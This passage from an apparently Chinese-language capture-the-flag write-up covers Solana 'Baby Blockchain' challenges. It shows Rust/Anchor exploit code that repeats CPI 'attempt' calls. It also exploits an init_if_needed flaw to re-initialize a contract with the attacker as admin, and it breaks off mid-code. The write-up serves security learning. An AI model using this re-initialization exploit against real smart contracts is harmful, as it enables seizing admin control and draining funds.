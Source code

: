 ```rust
 for _n in 1..4 {
        let cpi_accounts = chall::cpi::accounts::Attempt {
            reserve: ctx.accounts.reserve.to_account_info(),
            record: ctx.accounts.user_record.to_account_info(),
            user_account: ctx.accounts.user_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(ctx.accounts.chall.to_account_info(), cpi_accounts);
        chall::cpi::attempt(cpi_ctx)?;
    }
```

### Baby Blockchain 3:

比赛中没用做出来 差了一点点 赛后复现

```rust
pub struct Initialize<'info> {
    #[account(
        init_if_needed,
        seeds = [ b"CONFIG" ],
        bump,   
        payer = admin,
        space = Config::SIZE,
    )]
    pub config: Account<'info, Config>,

    #[account(
        init_if_needed,
        seeds = [ b"RESERVE" ],
        bump,
        payer = admin,
        token::mint = mint,
        token::authority = reserve
    )]
    pub reserve: Account<'info, TokenAccount>,

    pub mint: Account<'info, Mint>,
    #[account(mut)]
    pub admin: Signer<'info>,
    pub token_program: Program<'info, Token>,
    pub system_program: Program<'info, System>,
    pub rent: Sysvar<'info, Rent>,
}
```
init_if_needed使得合约可以被再次初始化

利用：
```rust
 let reinitialize = chall::cpi::accounts::Initialize {
            config: ctx.accounts.config.to_account_info(),
            reserve: ctx.accounts.reserve.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            admin: ctx.accounts.user.to_account_info(), //make me admin
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_reinit = CpiContext::new(ctx.accounts.chall.to_account_info(), reinitialize);
        chall::cpi::initialize(cpi_reinit)?;

        let deposit_accounts = chall::cpi::accounts::Deposit {
            config: ctx.accounts.config.to_account_info(),
```
